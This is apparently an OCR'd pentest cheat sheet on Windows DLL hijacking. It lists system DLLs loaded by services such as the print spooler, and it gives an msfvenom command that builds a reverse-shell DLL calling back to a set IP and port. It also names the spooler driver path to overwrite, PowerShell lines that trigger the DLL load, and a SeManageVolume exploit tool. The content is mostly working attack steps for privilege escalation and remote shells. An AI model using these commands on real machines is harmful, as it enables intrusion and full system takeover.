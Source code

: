 =============================================================== C:\Windows\System32\ualapi.dll (spooler service) http://www.hexacorn.com/blog/2016/11/08/beyond-good-ol-run-key-part-50/ 

=============================================================== C:\Windows\System32\fveapi.dll (ShellHWDetection Service) @bohops 

=============================================================== C:\Windows\System32\Wow64Log.dll (this dll loaded by other third party services such as GoogleUpdate.exe) http://waleedassar.blogspot.com/2013/01/wow64logdll.html 

=============================================================== #DLL 
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll 

#Overwrite
C:\Windows\System32\spool\drivers\x64\3\ 

#Trigger 
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}") 
$object = [Activator]::CreateInstance($type) 

=============================================================== # ALL ABOVE REQUIRE ADMIN READ/WRITE
https://github.com/CsEnox/SeManageVolumeExploit/
SeManageVolumeExploit.exe 

===============================================================